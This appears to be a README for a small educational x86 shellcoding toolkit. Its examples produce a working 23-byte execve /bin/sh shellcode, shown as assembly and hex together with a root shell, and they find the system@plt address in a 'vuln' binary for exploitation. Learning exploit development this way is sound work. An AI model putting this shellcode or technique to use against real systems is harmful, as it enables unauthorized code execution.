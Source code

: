 # shellcoding
Just a collection of scripts to help out with basic custom shellcoding.  For educational purposes, created with intention of teaching myself assembly a bit more every day.  

- Plans to integrate everything together in the future and pipe to cfuzz.

- Encoding coming eventually? 

##Stringhex
    root@kali:~/shellcoding# stringhex /bin//sh

    Hex for string '/bin//sh' is: \x68\x73\x2F\x2F\x6E\x69\x62\x2F

    //sh: push 0x68732f2f

    /bin: push 0x6e69622f

    [**] Copy and paste the below directly into the .asm.

        push 0x68732f2f

        push 0x6e69622f

##Newasm
    root@kali:~/shellcoding# newasm test

    root@kali:~/shellcoding# cat test.asm

    global _start

    _start:

        xor eax, eax

        push eax

        ;add your payload here

        push 0x68732f2f

        push 0x6e69622f
####The 2 pushes above we added from stringhex /bin//sh
        mov ebx, esp

        push eax

        ;add your additional argument here

        ;mov ecx, esp

        ;push eax

        ;push ecx

        push ebx

        mov ecx, esp

        mov al, 11

        int 0x80
####If we wanted to add arguments (for example for a /bin/cat shellcode) you'd simply add the argument right after it says ";add your additional argument here" and uncomment the 3 lines after it.


##Chex
    root@kali:~/shellcoding# chex test

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

    Shellcode is 23 bytes long

    root@kali:~/shellcoding# ./test

    # id
    
    uid=0(root) gid=0(root) groups=0(root)

####This automatically compiles your asm file, generates some hex, and gives you the length.

##Plt
    root@kali:~# plt vuln -f system

    1 PLT(s) found.

    \x80\x83\x04\x08 <system@plt>

    root@kali:~# plt vuln

    8 PLT(s) found.

    \xb0\x83\x04\x08 <putchar@plt+0x10>

    \x90\x83\x04\x08 <__libc_start_main@plt>

    \x60\x83\x04\x08 <strcpy@plt>

    \x70\x83\x04\x08 <puts@plt>

    \x50\x83\x04\x08 <printf@plt>

    \x50\x83\x04\x08 <printf@plt>

    \xa0\x83\x04\x08 <putchar@plt>

    \x80\x83\x04\x08 <system@plt>


####Quickly finds plts.

